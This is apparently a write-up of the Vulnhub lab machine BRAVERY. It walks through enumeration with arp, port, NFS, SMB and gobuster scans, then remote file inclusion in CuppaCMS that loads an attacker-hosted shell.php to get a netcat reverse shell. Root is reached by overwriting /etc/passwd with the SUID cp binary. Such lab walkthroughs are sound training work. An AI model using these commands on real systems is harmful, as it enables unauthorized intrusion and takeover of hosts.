

# Information

- Name: digitalworld.local: BRAVERY
- Date release: 28 Dec 2018
- Author: Donavan
- Series: digitalworld.local
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/digitalworldlocal-bravery,281/
- Difficulty: Medium

# Write Up
## Enumeration
### Host Discovery
Host Discovery is performed with [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.35_.
```Shell
# arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:99:19:3c 10.0.2.3
[*] 08:00:27:a4:04:fe 10.0.2.35
```
### Port Scanning
Port Scanning is realized using [portScan](https://github.com/aalmeidar/Tools) and _nmap_. Tool reported 12 open ports.

```Shell
# portScanner.py -i 10.0.2.35  
[◤] Scanning Ports: 65535
[*] Port 80 (http) open
[*] Port 53 (domain) open
[*] Port 111 (sunrpc) open
[*] Port 139 (netbios-ssn) open
[*] Port 445 (https) open
[*] Port 443 (https) open
[*] Port 2049 (nfs) open
[*] Port 3306 (mysql) open
[*] Port 8080 (http-alt) open
[*] Port 20048 (unknown) open
[*] Port 40927 (unknown) open
[*] Port 52055 (unknown) open
```

Now, let's discover what versions are running with _nmap_. 

```Console
# nmap -sV -p80,53,111,139,445,443,2049,3306,8080,20048,40927,52055 10.0.2.35
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-24 17:26 CEST
Nmap scan report for 10.0.2.35 (10.0.2.35)
Host is up (0.00037s latency).

PORT      STATE SERVICE     VERSION
53/tcp    open  domain      dnsmasq 2.76
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp   open  ssl/http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     3 (RPC #100227)
3306/tcp  open  mysql       MariaDB (unauthorized)
8080/tcp  open  http        nginx 1.12.2
20048/tcp open  mountd      1-3 (RPC #100005)
40927/tcp open  nlockmgr    1-4 (RPC #100021)
52055/tcp open  status      1 (RPC #100024)
Service Info: Host: BRAVERY

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds

```

## NFS
There are so many ports, let's start with nfs. First, check the folder availables:

```Console
# showmount -e 10.0.2.35
Export list for 10.0.2.35:
/var/nfsshare *
```
So let's mount it.

```Console
# sudo mount -t nfs 10.0.2.35:/var/nfsshare /mnt/nfs

# tree
 .
├──  discovery
├──  enumeration
├──  explore
├──  itinerary
│   └──  david
├──  password.txt
├──  qwertyuioplkjhgfdsazxcvbnm
└──  README.txt

# cat * 
Remember to LOOK AROUND YOU!
Enumeration is at the heart of a penetration test!
Exploration is fun!
cat: itinerary: Is a directory
Passwords should not be stored in clear-text, written in post-its or written on files on the hard disk!
Sometimes, the answer you seek may be right before your very eyes.
read me first!

# cat itinerary/*
David will need to fly to various cities for various conferences. Here is his schedule.
...
...
...
9 January 2019 (Wednesday):
1715: Land in Singapore.
1815 - 2015: Dinner with wife.
2100: Clear local emails and head to bed.
```
Nothing relevant.

## SMB
Now, let's discover with nmap scripts if there are shared directories or if we can enum users.

```Console
# nmap --script smb-enum-shares,smb-enum-users 10.0.2.35   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-24 17:44 CEST
Nmap scan report for 10.0.2.35
Host is up (0.00016s latency).
Not shown: 990 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 08:00:27:A4:04:FE (Oracle VirtualBox virtual NIC)

Host script results:
| smb-enum-users: 
|   BRAVERY\david (RID: 1000)
|     Full name:   david
|     Description: 
|     Flags:       Normal user account
|   BRAVERY\rick (RID: 1001)
|     Full name:   
|     Description: 
|_    Flags:       Normal user account
| smb-enum-shares: 
|   account_used: guest
|   \\10.0.2.35\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba Server 4.7.1)
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.0.2.35\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba\anonymous
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.0.2.35\secured: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba\secured
|     Anonymous access: <none>
|_    Current user access: <none>
```

There are two shared folder: secured and anonymous. There are two users: david and rick. folder anonymous has Anonymous access, so let's mount it. 

```Console
# mount -t cifs \\\\10.0.2.35\\anonymous /mnt/smb_anonymous
Password for root@\\10.0.2.35\anonymous: 

# ls
 david's folder       kenny's folder     qinyi's folder   readme.txt
 genevieve's folder   patrick's folder   qiu's folder     sara's folder
# ls *
 readme.txt

david's folder:

genevieve's folder:
 CMS   email   projects

kenny's folder:
 application_architecture   enterprise_integration   system_mgmt      vuln_assessment_team
 enterprise_devt            project_mgmt             UI_and_UX_team  

patrick's folder:
 movies!   play!   work!

qinyi's folder:
 patrick_projects

qiu's folder:

sara's folder:
 email   gossip_corner   procurement_work

```

There are so many shitty files, but there are some gold nuggets.

- /genevieve's folder/CMS/migration/important!:
> need to migrate CMS. obsolete. speak to qiu about temporarily using her IIS to test a sharepoint installation.

Obsolete CMS maybe is running on http.

The other shared folder is secured and you can't mount it without perm. 

## WEB
The web running on port 80 is not interesting:


Let's discover hidden directories with _gobuster_:

```Console
# gobuster dir -u http://10.0.2.35 -x php,html,txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

/about                (Status: 200) [Size: 79]
/1                    (Status: 200) [Size: 2] 
/4                    (Status: 200) [Size: 2] 
/2                    (Status: 200) [Size: 2] 
/3                    (Status: 200) [Size: 2] 
/6                    (Status: 200) [Size: 2] 
/9                    (Status: 200) [Size: 2] 
/contactus            (Status: 200) [Size: 27]
/5                    (Status: 200) [Size: 2] 
/7                    (Status: 200) [Size: 2] 
/0                    (Status: 200) [Size: 2] 
/8                    (Status: 200) [Size: 30]
/uploads              (Status: 301) [Size: 233] [--> http://10.0.2.35/uploads/]
/README.txt           (Status: 200) [Size: 12]                                 
/phpinfo.php          (Status: 200) [Size: 1]

```

In _/uploads/files/internal/department/procurement/sara/note.txt_ there is a message:


So, we know that there is a cuppaCMS that is obsolete (smb message). Now, let's see the web running on port 8080.

Nothing more interesting on index.


As before, let's discover hidden directories with _gobuster_:
```Console
gobuster dir -u http://10.0.2.35:8080 -x php,html,txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

/index.html           (Status: 200) [Size: 2637]
/about                (Status: 200) [Size: 503] 
/public               (Status: 301) [Size: 185] [--> http://10.0.2.35:8080/public/]
/private              (Status: 301) [Size: 185] [--> http://10.0.2.35:8080/private/]
/404.html             (Status: 200) [Size: 3650]                                    
/robots.txt           (Status: 200) [Size: 103]
```
In _robots.txt_ there are some directories:
> User-agent: *
> Disallow: /cgi-bin/
> Disallow: /qwertyuiop.html
> Disallow: /private
> Disallow: /public

In _qwertyuiop.html_ there is a pic:


The name qwertyuiop reminds me of another one found in the nfs called qwertyuioplkjhgfdsazxcvbnm.

The other directories are not relevant.

## Exploitation
After many attempts I realize that the credentials david:qwertyuioplkjhgfdsazxcvbnm are correct for the smb secured shared folder. So, let's mount it.

```Console
# mount -t cifs \\\\10.0.2.35\\secured /mnt/smb_secured -o username=david,password=qwertyuioplkjhgfdsazxcvbnm

# ls
 david.txt   genevieve.txt   README.txt

# cat *
I have concerns over how the developers are designing their webpage. The use of "developmentsecretpage" is too long and unwieldy. We should cut short the addresses in our local domain.

1. Reminder to tell Patrick to replace "developmentsecretpage" with "devops".

2. Request the intern to adjust her Favourites to http://<developmentIPandport>/devops/directortestpagev1.php.
Hi! This is Genevieve!

We are still trying to construct our department's IT infrastructure; it's been proving painful so far.

If you wouldn't mind, please do not subject my site (http://192.168.254.155/genevieve) to any load-test as of yet. We're trying to establish quite a few things:

a) File-share to our director.
b) Setting up our CMS.
c) Requesting for a HIDS solution to secure our host.
README FOR THE USE OF THE BRAVERY MACHINE:

Your use of the BRAVERY machine is subject to the following conditions:

1. You are a permanent staff in Good Tech Inc.
2. Your rank is HEAD and above.
3. You have obtained your BRAVERY badges.

For more enquiries, please log into the CMS using the correct magic word: goodtech.
```
So, let's try access to http://10.0.2.35/genevieve/ :


We know that there are a CMS, so access to http://10.0.2.35/genevieve/cuppaCMS/:


CuppaCMS is vulnerable to [RFI](https://www.exploit-db.com/exploits/25971). So, let's get a reverse shell. You just have to set up a server, upload the shell and then access via RFI with the address http://10.0.2.35/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=10.0.2.19/shell.php.

```Console
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.19] from (UNKNOWN) [10.0.2.35] 51752
Linux bravery 3.10.0-862.3.2.el7.x86_64 #1 SMP Mon May 21 23:36:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 14:35:14 up 58 min,  0 users,  load average: 0.04, 0.16, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-4.2$ whoami
whoami
apache
```

## Privilege Escalation
Let's search files with SUID perm:
```Console
bash-4.2$ find / -perm -4000 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/Xorg
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/ksu
/usr/bin/at
/usr/bin/staprun
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper                                                   
/usr/libexec/flatpak-bwrap                                                                      
/usr/libexec/sssd/krb5_child                                                                     
/usr/libexec/sssd/ldap_child                                                                     
/usr/libexec/sssd/selinux_child                                                                  
/usr/libexec/sssd/proxy_child                                                                   
/usr/libexec/qemu-bridge-helper                                                                 
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper                                   
/usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
```

With _cp_ we can change, for example, the root password in /etc/passwd. First, copy /etc/passwd to attacker machine, then change the password and finally upload via nfs.

```Console
(attacker machine)
# openssl passwd -1 -salt test 
Password: test 
$1$test$pi/xDtU5WFVRqYS6BMU8X/
# nano passwd
# head -n 1 passwd 
root:$1$test$pi/xDtU5WFVRqYS6BMU8X/:0:0:root:/root:/bin/bash

(victim machine)
bash-4.2$ cd /var/nfsshare/
bash-4.2$ ls
README.txt  discovery  enumeration  explore  itinerary  passwd  password.txt  qwertyuioplkjhgfdsazxcvbnm
bash-4.2$ cp passwd /etc/passwd
bash-4.2$ su root
Password: 
[root@bravery nfsshare]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@bravery nfsshare]# whoami
root
[root@bravery nfsshare]# cd /root/
[root@bravery ~]# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  anaconda-ks.cfg  author-secret.txt  ossec-hids-2.8  proof.txt
[root@bravery ~]# cat proof.txt 
Congratulations on rooting BRAVERY. :)
```
